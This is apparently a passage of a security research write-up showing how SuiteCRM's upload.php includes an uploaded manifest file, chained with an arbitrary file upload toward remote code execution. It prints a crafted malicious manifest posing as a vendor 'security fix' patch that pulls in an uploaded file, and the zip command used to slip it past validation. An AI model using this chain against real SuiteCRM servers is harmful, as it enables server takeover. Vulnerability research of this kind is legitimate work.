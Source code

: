 Chained with our arbitrary file upload we now are one step closer to RCE.

Reviewing the upload.php file again we see that after our manifest file is scanned we make a call to MSLoadManifest($manifest_file)
```PHP
list($manifest, $installdefs) = MSLoadManifest($manifest_file);
```

If we examine this function we notice that it includes our $manifest_file and returns an array which is present in the manifest file.
```PHP
function MSLoadManifest($manifest_file)
{
    include($manifest_file);
    return array($manifest, $installdefs);
}
```

If we can reach this code block - our manifest file and our include expression will be included by the application and executed!

Let's test our theory by crafting a new manifest file and adding our include statement at the top so that it is the first thing that is executed when the file is included by MSLoadManifest. 
```PHP
<?php
	require_once("upload/evilFile");
	$manifest = array(
	'name' => 'Suitecrm Upgrade Patch',
	'description' => 'This patch will install important security fixes!',
	'author' => 'SalesAgility Ltd',
	'version' => '1.3.3.7',
	'published_date' => '2023-01-01',
	'type' => 'patch',
	'is_uninstallable' => false,
	'acceptable_suitecrm_versions' => array(
		'regex_matches' => array(
			'7.*'
		)
	),
	);

	$installdefs = array(
	'id' => 'patch #{1}',
	'copy' => array(
		array(
		'from' => 'upload/nothing',
		'to' => 'upload/nothing',
		),
	),
	);
```

We will zip our malicious manifest into a zip file so that it passes those validations
`zip evil.zip manifest.php`
